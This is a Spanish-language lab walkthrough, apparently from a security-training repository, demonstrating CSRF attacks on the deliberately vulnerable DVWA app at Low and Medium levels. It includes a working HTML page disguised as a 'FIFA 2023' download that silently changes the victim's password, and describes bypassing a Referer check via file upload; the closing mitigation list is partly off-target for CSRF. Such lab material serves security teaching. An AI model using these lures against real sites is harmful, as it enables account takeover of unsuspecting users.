 poner en nivel Low # CSRF
El cross-site request forgery (CSRF) consiste en realizar tareas dentro de una aplicación por medio de la ejecución de un enlace en el navegador de la víctima. \
Se envía un enlace que se crea a partir de una petición que contiene la acción maliciosa planeada por el atacente. \
El siguiente códio HTML contiene la acción maliciosa que cambiará la contraseña automáticamente a (12345) al pinchar en el enlace.
## Nivel: Low
```
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<meta name="viewport" content="width=dwvice-width, initial-scale=1.0">
	<title>Document</title>
</head>
<body>
	<h3>Click to download FIFA 2023</h3>
	<a href="http://localhost/DVWA/vulnerabilities/csrf/?password_new=12345&password_conf=12345&Change=Change#">FIFA 2023</a>
</body>
</html>
```
![Inicio CSRF](https://github.com/PPS11148274/apache_hardening/blob/main/DVWA/cross_site/asset/CSRF_cambio_contrase%C3%B1a.png) \
Como se ve en la imagen, en la barra de direcciones aparece la contraseña que el usuario ha cambiado "perico", que luego cambia el atacante con su código malicioso.

![Enlace malicioso](https://github.com/PPS11148274/apache_hardening/blob/main/DVWA/cross_site/asset/enlace_malicioso.png)
## Nivel: Medium

El nuevo código comprueba si la cabecera HTTP-Referer coincide con el nombre del servidor (es decir, la petición HTTP «procede» del mismo servidor que la página recién solicitada). Si es así, asume que la petición es válida y continúa. En caso contrario, produce un error. \
Para solucionar esta protección se puede averiguar el "referer" usando **Burp Suite**, pero lo que se hará aquí,
es cargar el archivo fifa.html desde "File Upload" y ejecutarlo después. (se debe poner el nivel Low para cargarlo, luego se cambia a medium nuevamente).

![Programa malicioso](https://github.com/PPS11148274/apache_hardening/blob/main/DVWA/cross_site/asset/CSRF_cambio_contras_medium.png)

Al pinchar en el enlace se cambia la contraseña automáticamente a "12345".

![Cambia la contraseña](https://github.com/PPS11148274/apache_hardening/blob/main/DVWA/cross_site/asset/cambio_contrasena_medium.png)

Se puede comprobar con el botón "Test credentials" que la contraseña "password" ya no funciona, funciona "12345".

## Mitigación
  - Validación y sanitización de entradas.
  - Escapado de datos (Output Encoding).
  - Uso de Content Security Policy (CSP).
  - Configura WAF.
  - Configurar Cabeceras HTTP de Seguridad.

